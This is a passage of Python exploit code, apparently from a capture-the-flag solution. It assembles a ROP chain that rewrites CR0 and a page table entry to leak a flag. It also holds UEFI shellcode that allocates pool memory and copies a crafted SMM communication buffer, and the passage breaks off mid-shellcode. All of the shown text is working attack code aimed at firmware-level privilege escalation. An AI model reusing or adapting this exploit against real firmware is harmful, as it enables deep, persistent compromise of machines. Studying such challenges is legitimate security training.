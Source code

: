 ```python
    new_cr0_value,

    rop_mov_cr0_rax_ret,

    # update PTE and set flag addr to rbx
    rop_pop_rcx_rbx_ret,
    addr_0x44440000_PTE,
    addr_region_4,

    rop_pop_rax_ret,
    new_0x44440000_PTE,
	rop_mov_qptr_rcx_rax_ret,                                                             

    # leak flag
    rop_mov_rax_qptr_rbx_add_rsp_0x28_ret,
]
rop_chain_str = ','.join(map(hex, rop))

payload = b'A\x00' * 200 + p64(rop_ret_0x70)

sc = asm(
f"""
/* Get AllocPool() addr */
mov rax, {addr_system_table + offset_BS}
mov rax, qword ptr [rax]
mov rax, qword ptr [rax + {offset_AllocPool}]

/* AllocPool(enum_EfiRuntimeServicesData, size, buffer) */
mov rcx, {enum_EfiRuntimeServicesData}
mov rdx, {len(payload) + 0x18}
lea r8, qword ptr [rip + buffer]
push rax
call rax
test rax, rax
jnz fail

pop rax
mov rcx, {enum_EfiRuntimeServicesData}
mov rdx, {len(rop) * 8}
lea r8, qword ptr [rip + rop_buffer]
call rax
test rax, rax
jnz fail

/* Copy header data to valid buffer */
lea rsi, qword ptr [rip + efi_smm_comminucate_hdr]
mov rdi, qword ptr [rip + buffer]
mov rcx, {len(payload) + 0x18}
cld
rep movsb

lea rsi, qword ptr [rip + rop_chain]
mov rdi, qword ptr [rip + rop_buffer]
mov rcx, {len(payload) + 0x18}
cld
rep movsb

/* Get LocateProtocol() addr */
mov rax, {addr_system_table + offset_BS}
mov rax, qword ptr [rax]
mov rax, qword ptr [rax + {offset_LocateFunc}]

/* LocateProtocol(&protocol_guid, NULL, &protocol_buff) */
```